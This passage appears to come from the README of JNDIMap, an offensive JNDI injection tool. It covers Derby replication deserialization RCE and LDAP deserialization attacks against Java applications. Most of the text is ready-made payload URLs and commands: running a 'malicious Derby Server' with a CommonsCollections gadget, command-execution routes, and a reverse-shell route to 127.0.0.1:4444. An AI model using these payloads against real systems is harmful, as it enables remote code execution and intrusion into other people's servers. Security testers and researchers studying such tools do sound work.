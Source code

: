 In order to prevent malicious jars from landing, JNDIMap chooses to use the `jdbc:derby:memory:<database>` form of JDBC URL to create the database in memory

Therefore, it is best not to execute the Install/InstallJar route multiple times, and remember to Drop the database to release memory

**Derby Master-Slave Replication Deserialization RCE**

Although JNDI itself supports deserialization, it is not very meaningful, and may be useful in some extreme scenarios (e.g. filtering the LDAP protocol and only supporting RMI)

```bash
# 1. create an in-memory database
ldap://127.0.0.1:1389/Factory/Derby/Create/<database>

# 2. start the malicious Derby Server quickly using JNDIMap
java -cp JNDIMap.jar map.jndi.server.DerbyServer -g "/CommonsCollectionsK1/Command/open -a Calculator"

# 3. specify Slave information, database is the name of the database created above
ldap://127.0.0.1:1389/Factory/Derby/Slave/<ip>/<port>/<database>
```

Start the built-in malicious Derby Server

```bash
Usage: java -cp JNDIMap.jar map.jndi.server.DerbyServer [-p <port>] [-g <gadget>] [-f <file>] [-h]
```

`-p`: Derby Server listening port, default is `4851`

`-g`: specify gadget, e.g. `/CommonsCollectionsK1/Command/open -a Calculator` (i.e. `/Deserialize/*` series routes)

`-f`: specify custom serialization data file

`-h`: show usage

### Deserialize

Supports Java deserialization via LDAP protocol (RMI protocol is not supported)

JNDIMap has built-in the following gadgets, and also supports custom data deserialization

- CommonsCollections K1-K4
- CommonsBeanutils (1.8.3 + 1.9.4)
- Fastjson (1.2.x + 2.0.x)
- Jackson

```bash
# custom data deserialization
ldap://127.0.0.1:1389/Deserialize/<base64-url-encoded-serialize-data>

# CommonsCollectionsK1 deserialization (3.1 + TemplatesImpl), supports command execution and native reverse shell
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/ReverseShell/127.0.0.1/4444

# CommonsCollectionsK2 deserialization (4.0 + TemplatesImpl), same as above
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK2/Command/open -a Calculator

# CommonsCollectionsK3 deserialization (3.1 + Runtime.exec), only supports command execution
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK3/Command/open -a Calculator

# CommonsCollectionsK4 deserialization (4.0 + Runtime.exec), same as above
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK4/Command/open -a Calculator

# CommonsBeanutils deserialization
# No need for commons-collections dependency, use TemplatesImpl, support command execution and native reverse shell
```
